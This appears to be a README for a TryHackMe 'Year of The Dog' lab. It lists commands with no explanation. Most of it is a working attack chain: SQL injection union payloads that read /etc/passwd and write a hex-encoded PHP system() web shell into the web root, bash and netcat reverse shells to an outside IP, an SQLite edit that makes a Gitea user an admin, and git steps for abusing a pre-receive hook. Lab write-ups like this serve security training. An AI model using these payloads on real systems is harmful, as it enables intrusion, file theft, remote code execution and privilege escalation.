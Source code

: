 # TryHackMe-Year of The Dog

**Scope:**

- Gitea
- Pre-receive Web Hook
- SQLite
- MySQL

**Keywords:**

- SSH Tunneling
- Web Hook
- Git
- Burp Suite
- SQL Injection
- Network Enumeration
- Remode Code Execution
- LOAD_FILE() Function
- UNHEX() Function

**Main Commands:**

- `nmap -sS -sV -sC -T4 -A -O -oN nmap_result.txt -Pn $target_ip`
- `hashid 3faefd2fcfe859aad6a5963b9928603e`
- `sudo service mysql start`
- `mysql -u root -p`
- `python3 -m http.server 8000`
- `ssh -o MACs=hmac-sha2-256 dylan@yearofthedog.thm -p 22`
- `ssh -o MACs=hmac-sha2-256 -fN -L 3000:127.0.0.1:3000 dylan@yearofthedog.thm`
- `nmap -sV -sC -T4 -A -O -Pn -oN nmap_local_result.txt 127.0.0.1`
- `scp -o MACs=hmac-sha2-256 dylan@yearofthedog.thm:/gitea/gitea/gitea.db /root/Desktop/CyberLearningFramework/yearofthedog`
- `sqlite3 gitea.db`
- `scp -o MACs=hmac-sha2-256 /root/Desktop/CyberLearningFramework/yearofthedog/gitea.db dylan@yearofthedog.thm:/gitea/gitea/gitea.db`

**System Commands:**

- `' order by 5 --+`
- `' order by 2--+`
- `' union select 1, @@version -- -`
- `' %20%75%6e%69%6f%6e%20%73%65%6c%65%63%74%20%31%2c%20%40%40%76%65%72%73%69%6f%6e%20%2d%2d%20%2d`
- `' union select 1, database() -- -`
- `' union select null,LOAD_FILE('/etc/passwd')-- -`
- `select hex("<?php system($_GET['do']);?>");`
- `' union select null,unhex('3c3f7068702073797374656d28245f4745545b27646f275d293b3f3e') INTO OUTFILE '/var/www/html/shell_script.php' -- -`
- `bash -i >& /dev/tcp/10.2.37.37/11122 0>&1`
- `grep -Ri dylan 2>/dev/null`
- `netstat -plnt`
- `ss -tulwn`
- `curl 127.0.0.1:3000`
- `uname -a`
- `dpkg --version`
- `select * from user;`
- `select lower_name, is_admin from user;`
- `UPDATE user SET is_admin=1 WHERE lower_name="overthenet";`
- `mkfifo /tmp/f; nc 10.2.37.37 10222 < /tmp/f | /bin/sh >/tmp/f 2>&1; rm /tmp/f`
- `git clone http://localhost:3000/overthenet/TESTRepo`
- `echo 'exploit_here' > README.md`
- `git add README.md`
- `git commit -m "Our Exploit”`
- `sudo -l`
